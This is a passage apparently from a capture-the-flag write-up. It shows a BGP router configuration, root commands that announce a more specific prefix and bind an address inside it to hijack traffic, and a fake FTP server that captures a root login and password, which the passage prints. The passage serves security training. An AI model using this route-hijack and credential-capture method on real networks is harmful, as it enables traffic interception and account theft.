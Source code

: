 ```bash
 no link-detect
!
interface eth2
 ipv6 nd suppress-ra
 no link-detect
!
interface lo
 no link-detect
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.11.2 route-map to-as300 out
!
ip prefix-list pswapnil seq 5 permit 10.120.15.0/25
!
route-map to-as200 permit 10
!
route-map to-as300 permit 10
!
ip forwarding
!
line vty
!
end

root@r1:/dev/shm# configure terminal
r1(config)# router bgp 100
r1(config)# network 10.120.15.0/32
r1(config)# end

root@r1:/dev/shm# ip address add 10.120.15.10/24 dev eth2
```

I used this [ftpclient.py](https://github.com/RG-Belasco/PythonStuff/blob/master/ftpclient) script and downloaded it on the box using `wget` and ran the script to get FTP credentials.

```bash
root@r1:/tmp# python3 ftpclient.py
On 0.0.0.0 : 21
Enter to end...
Received: USER root
Received: PASS BGPtelc0rout1ng
Received: PASV
open 0.0.0.0 54905
Received: QUIT
```
